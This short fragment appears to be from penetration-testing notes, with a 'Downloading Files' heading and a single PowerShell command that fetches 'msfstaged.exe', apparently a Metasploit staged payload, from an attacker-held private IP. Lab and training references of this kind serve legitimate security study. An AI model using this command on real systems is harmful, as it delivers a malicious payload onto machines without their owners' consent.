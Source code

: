 ### Downloading Files
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')
```

